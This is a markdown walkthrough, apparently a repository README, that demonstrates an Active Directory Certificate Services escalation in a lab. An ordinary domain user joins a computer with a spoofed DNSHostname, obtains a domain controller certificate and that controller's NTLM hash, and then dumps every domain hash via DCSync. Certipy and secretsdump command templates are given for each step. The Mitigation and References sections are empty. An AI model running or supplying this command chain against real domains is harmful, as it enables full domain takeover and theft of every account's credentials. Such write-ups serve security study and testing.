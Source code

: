 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- The Exploit as a Conversation
- The Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# The exploit: A Conversation
\+ **User:** Mr. AD! I heard that I could join 10 computers to the domain without any special privileges. Is this for real?

\- **AD:** Thats right! knock yourself out!

\+ **User:** Yo ADCS! can I request a certificate from you?

\~ **ADCS:** Sure! what do you need this certificate for, user or computer?

\+ **User:** I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ **ADCS:** You bet! all domain computers can get their certificate!

\+ **User:** Oh that's great! Alright, i'll need one for my computer here. But can I make its `DNShostname` like this? \*shows domain controller fully-qualified domain name\*

\~ **ADCS:** \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ **User:** Thank you ADCS! This certificate is good for authentication too, Right?

\~ **ADCS:** That's correct.

\+ **User:** Perfect!

\+ **User:** AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- **AD:** Yea I know that domain controller. \*Sends him a copy of all the domain hashes\*

\+ **User:** Oh you're so generous AD <3

\- **AD:** Just doing my job :D

---

# The Technical Breakdown

## Puzzle Piece #1: About Certificate Templates: The Process, Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (User/Computer) generates a public/private key pair.
2. Second, the client sends a Certificate Signing Request (CSR) to the Enteprise CA Server.
3. Both the User and Computer Certificate Templates must exist. Because a user client will need to access the User Certificate Template and the same goes for a computer client.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. After recieving a user/computer certificate, they can both be used for authentication. This is the default.
6. This authentication is because of the PKINIT kerberos extension. Meaning that: If you have a valid certificate, you can get a TGT.

## Puzzle Piece #2: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

## Puzzle Piece #3: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #4: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

This allows the user to set the `DNSHostname` property which ADCS uses to generate the certificate.

With a domain controller's certificate, we can request a TGT on its behalf and gain its NTLM hash too.

# mitigation


# references and credits